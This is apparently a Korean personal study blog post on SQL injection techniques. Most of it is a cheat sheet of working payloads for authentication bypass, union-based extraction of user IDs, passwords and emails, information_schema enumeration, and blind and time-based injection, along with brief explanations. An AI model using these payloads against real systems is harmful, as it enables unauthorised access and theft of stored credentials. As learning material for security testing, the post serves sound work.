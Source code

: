 ```yaml
---
title: SQL Injection 기법
date: 2020-11-15 19:49:08
tags:
- SQL Injection
category:
- Web
---
```


## SQL Injection

### 인증 우회

- 인증 쿼리 질의문
`Select * from members where id='' and pass=''`

- `' or 1=1 #`
- `' or 'x'='x`
- `" or "x"="x`
- `') or ('x'='x`
- `") or ("x"="x`

### Error Based

- `0' union select all 1,concat(id,login,password),3,4,concat(email,secret),6,7 from users#`
- `0' union select all 1,2,3,4,5 #` 
- `' union select all 1,2,3,4,5,6,7,8,9,10,11#`
- `' union select all 1,2,database(),4,5,6,7#`
- `' union select all 1,2,table_name,4,5,6,7,8 from information_schema.tables#`
- `' union select all 1,2,column_name,4,5,6 from information_schema.columns where table_name='users'#`
- `' order by 10#` : 컬럼 개수 알아내기 컬럼 개수가 크면 에러가 나온다

UNION SELECT ALL 다음 컬럼 값은 앞선 질의문의 쿼리문의 개수와 같아야한다. 

### Blind 

- `' or 1=1 and length(database())=5#`
- `' or 1=1= and substring(database(),1,1)='b'#`
- `' or 1=1 and ascii(substring(database(),1,1))=98#`

'참'과 '거짓'의 결과만으로 결과를 얻어낸다.

### Time Based

- `' or 1=1 and sleep(5)#`

sleep()함수를 이용해서 시간을 비교해서 원하는 결과를 얻는 방법, 하지만 시간도 많이 걸리고 제일 마지막에 시도하는 방법이다.


## SQL Injection Cheat Sheet

https://www.netsparker.com/blog/web-security/sql-injection-cheat-sheet/

## My SQL Injection에 기본적으로 알아야 할 것들

- @@version
- information_schema.tables
  - table_name
- information_shcema.columns
  - column_name
- database()
- length()
- substring(문자열,시작,개수)
- ascii()
- limit 시작,개수 : 컬럼을 하나씩 가져오기위해 사용


